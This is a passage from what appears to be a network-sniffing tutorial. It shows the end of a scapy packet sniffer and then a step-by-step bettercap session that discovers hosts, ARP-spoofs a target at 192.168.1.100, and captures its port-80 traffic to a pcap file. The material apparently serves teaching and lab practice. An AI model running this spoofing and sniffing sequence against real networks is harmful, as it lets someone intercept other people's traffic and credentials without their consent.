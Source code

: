 ```python
            sport = packet[UDP].sport
            dport = packet[UDP].dport
            print(f"    UDP: {sport} -> {dport}")

if __name__ == "__main__":
    simple_sniffer()
```

## 🎭 Step 4: Bettercap Practical Session

### Starting Bettercap:
```bash
# Start bettercap on specific interface
sudo bettercap -iface eth0

# Or start and execute commands
sudo bettercap -iface eth0 -eval "net.probe on; net.recon on"
```

### Complete Bettercap Sniffing Session:
```bash
# Start bettercap
sudo bettercap -iface eth0

# In bettercap console:

# 1. Network discovery
net.probe on
net.recon on

# 2. View discovered hosts
net.show

# 3. Set ARP spoofing target
set arp.spoof.targets 192.168.1.100
set arp.spoof.fullduplex true

# 4. Start ARP spoofing
arp.spoof on

# 5. Start packet sniffing
net.sniff on

# 6. Monitor events
events.stream
```

### Bettercap Module Configuration:
```bash
# Configure sniffing parameters
set net.sniff.local true
set net.sniff.output capture.pcap
set net.sniff.filter tcp port 80

# Start with custom filter
net.sniff on
```
